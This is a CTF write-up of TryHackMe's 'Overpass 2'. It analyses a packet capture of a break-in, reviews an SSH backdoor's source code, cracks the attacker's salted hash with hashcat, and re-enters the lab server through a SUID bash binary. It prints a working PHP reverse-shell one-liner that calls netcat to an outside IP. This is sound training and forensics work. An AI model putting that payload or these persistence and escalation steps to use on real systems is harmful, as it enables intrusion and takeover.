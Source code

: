 ```yaml
---
title: Overpass 2
category: [infosec, write-ups]
tags: [overpass, tryhackme]
---
```


Overpass 2 continues the story from Overpass 1, but in this case a hacker has
exploited the weaknesses in the security of Overpass, and taken control of the
website.


## Task 1 - Forensics - Analyse the PCAP  
This challenge has multiple tasks, the first is answering a series of questions
about how this hacker gained access. I was provided with a `.pcapng` file to
analyse to answer them.

- What was the URL of the page they used to upload a reverse shell? 
- What payload did the attacker use to gain access?
- What password did the attacker use to privesc?
- How did the attacker establish persistence?
- Using the fasttrack wordlist, how many of the system passwords were crackable?

### Uploading the payload 
A pcapng file is a dump of sniffed packets captured over a network. I can
inspect this data using a tool like Wireshark.

![Opening the file in Wireshark](/assets/img/overpass2/overpass2_1.png)

Looking at the file we see a number of HTTP packets, notably a "POST" request to
"/development/upload.php". File uploads are a common way of gaining remote access,
so I investigate the request further to see what was uploaded.

![Following the conversation](/assets/img/overpass2/overpass2_2.png)

Looking at this, we can see that the attacker posted a PHP reverse shell to the
upload page.

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

I've got the answer to the first two questions now. 

### PrivEsc

Looking further at the HTTP packets we see that the attacker sent a "GET"
request to this payload.php file in order to trigger the reverse shell. 

We'd expect to see plaintext TCP packets showing what was sent, and indeed we
see this.

![How did they privesc](/assets/img/overpass2/overpass2_3.png)

Taking a look at the shell session, the attacker cats out the contents
of the ".overpass" file (the fictional password manager in this task), 
and uses to get the password of the 'james' user. They then switch to
the "james" user with this password using the su command. Another question down.

### Gaining persistence

Next, to find out how the attacker gained persistence.
![Persistence](/assets/img/overpass2/overpass2_4.png)
Looking at this section of the session, we see that (after catting the contents
of the /etc/shadow file), they clone the contents of [a backdoor](https://github.com/NinjaJc01/ssh-backdoor),
from a public Github repo. This repo is the answer to the final question of the first task.

## Task 2 - Research - Analyse the code
We've now got access to the source code for the backdoor. For the second task we're asked
a number of questions.

- What's the default hash for the backdoor?
- What's the hardcoded salt for the backdoor?
- What was the hash that the attacker used?
- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

### Looking at the code
Looking at the repo, We can see that this backdoor spins up an SSH server. The default hash
for the server is defined in a variable on line 19.

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

There are also a couple of password related functions of interest,
```go
...
func verifyPass(hash, salt, password string) bool {
	resultHash := hashPassword(password, salt)
	return resultHash == hash
}
...
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

The verifyPass function takes a salt as its second argument, and the hardcoded value of
`1c362db832f3f864c8c2fe05f2002a05` is passed, the answer to our second question.

The third question asked what hash the attacker used. Looking back at the PCAP, we see that
the attack spins up the backdoor with the following command.
```bash
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Finally we're asked to crack the hash using the rockyou.txt wordlist. I used hashcat for this.

From the backdoor code, we know that the hash is of type sha512, and that it is salted.

```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```

![Cracking the attackers hash](/assets/img/overpass2/overpass2_5.png)
We can use method `1710` from the as described in the hashcat docs to break
this hash. 

```bash
hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt
```

![Cracking the attackers hash](/assets/img/overpass2/overpass2_6.png)

## Task 3 -  Attack - Get back in! 

Finally, we need to regain access to the server. We've got another attack box to investigate.
We need the answers to:
- The attacker defaced the website. What message did they leave as a heading?
- What's the user flag?
- What's the root flag?

### Vandalism
I get the answer to the first question pretty easily, the home page now looks like this
![Cracking the attackers hash](/assets/img/overpass2/overpass2_7.png)

### Regaining access
We know that the attacker used a backdoor SSH server on port 2222. Trying to login to this as
the "james" user, I kept getting an error message.
```bash
$ ssh -p 2222 james@10.10.173.50
Unable to negotiate with 10.10.173.50 port 2222: no matching host key type found. Their offer: ssh-rsa
```
Turns out that that ssh-rsa has been depricated in versions of openssh >= 8.7.

I was able to workaround this with the following command
```bash
ssh -p 2222 james@10.10.173.50 -oHostKeyAlgorithms=+ssh-rsa
```
Now I had shell access for the james user, and could retrieve the user flag.

The james user did not appear to have sudo access, so I poked around a bit to see what the
attacker had left behind.
![Cracking the attackers hash](/assets/img/overpass2/overpass2_8.png)

We see the attacker left behind a `.suid_bash` file, owned by root, with a SUID bit set, presumably
for easy escalation. If we run this binary with the [`-p` flag](https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#The-Set-Builtin), so that we retain the permissions of the owner of the file, we gain access to the root flag.
